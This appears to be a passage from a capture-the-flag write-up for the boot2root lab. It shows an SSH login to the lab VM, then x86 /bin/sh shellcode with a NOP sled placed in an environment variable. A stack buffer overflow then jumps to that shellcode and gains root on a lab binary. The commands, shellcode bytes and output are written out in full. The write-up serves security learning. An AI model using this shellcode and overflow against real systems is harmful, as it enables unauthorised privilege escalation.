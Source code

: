 # SSH zaz - Jump to Shell code

From `zaz` [step](https://github.com/4slan/boot2root/blob/main/writeup1.md#ssh-zaz---bofret2libc) get the offset and exploit the binary by jumping on shellcode instead of ret2libc.
```shell
kali@kali:~$ ssh zaz@192.168.56.101
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
zaz@192.168.56.101's password: 646da671ca01bb5d84dbb5fb2238dc8e
zaz@BornToSecHackMe:~$ id
uid=1005(zaz) gid=1005(zaz) groups=1005(zaz)
```

<details>
<summary>getEnvAddress.c program</summary>

```c
#include <stdio.h>
#include <stdlib.h>
int main(int ac, char *av[]) {
   printf("%s at %p\n", av[1], getenv(av[1]));
}
```
</details>

Export the shell code in the environment variable and get its address using `getEnvAddress` executable.
```shell
zaz@BornToSecHackMe:~$ export SHELL_CODE=$(python -c "print '\x90'*100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
zaz@BornToSecHackMe:~$ gcc getEnvAddress.c -o getEnvAddress
zaz@BornToSecHackMe:~$ ./getEnvAddress SHELL_CODE
SHELL_CODE at 0xbffffec4
```
With gather informations implement exploit and run to get root permissions.
```shell
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c "import struct; print('A'*140 + struct.pack('I', 0xbffffec4))")
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```

